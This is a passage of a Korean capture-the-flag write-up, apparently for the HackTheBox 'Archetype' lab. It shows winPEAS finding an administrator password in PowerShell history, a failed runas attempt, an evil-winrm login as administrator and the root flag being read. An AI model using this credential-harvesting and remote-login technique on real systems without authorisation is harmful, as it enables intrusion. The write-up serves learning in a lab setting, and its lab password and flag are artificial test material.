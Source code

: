 레지스트리 수집 결과가 너무 오래 걸려 중단했지만, winPEAS의 중간 수집 결과 중 아래의 내용도 확인할 수 있었다. 괜히 오래 기다렸나싶다.
``` bash
Possible Password found: Usernames2
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Usernames2 triggered
> net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```


획득한 계정 정보를 통해 runas로 사용자를 변경하려 했으나, 이상하게 패스워드 입력 받는 부분에서 입력을 제대로 받지 않고 무시된다...도저히 패스워드를 입력할 수가없다. 또 runas는 pw를 인자로 안받기에 문제다.
``` bash
PS C:\Windows\system32> runas /user:administrator "cmd.exe"
runas /user:administrator "cmd.exe"
Enter the password for administrator:
PS C:\Windows\system32> 
```

### login administorator
하지만 이전의 삽집을 통해 winRM이 동작하고 있음을 알 수 있다. evil-winrm을 사용하여 로그인해보았다.ㅡㅡㅡㅡgood! 드디어 관리자 계정으로 로그인에 성공했다.
> 패스워드에 역슬래쉬를 넣은 이유는 리눅스에서 "!"를 history로 인식하기에 이스케이프 해주어야 한다. 안그럼 자꾸 명령줄에 다른 문구가 자동으로 붙어진다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# evil-winrm -i 10.129.95.187 -u administrator -p MEGACORP_4dm1n\!\!

Evil-WinRM shell v3.5
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
archetype\administrator
```


``` bash
*Evil-WinRM* PS C:\Users\Administrator> dir Desktop
    Directory: C:\Users\Administrator\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        2/25/2020   6:36 AM             32 root.txt

*Evil-WinRM* PS C:\Users\Administrator> type Desktop\root.txt
b91ccec3305e98240082d4474b848528
```
드디어 풀었다....이번 문제는 푸는데 정말 오래걸렸다...winpeas의 모든 결과를 기다려야 하는 줄 알고 시간을 오래 할애하였음에도 자꾸 문제로 받은 머신이 종료되어 풀 수가 없었다. 그냥 중간에 진작 결과를 볼걸..
![](../assets/image_post/20240223133152.png)
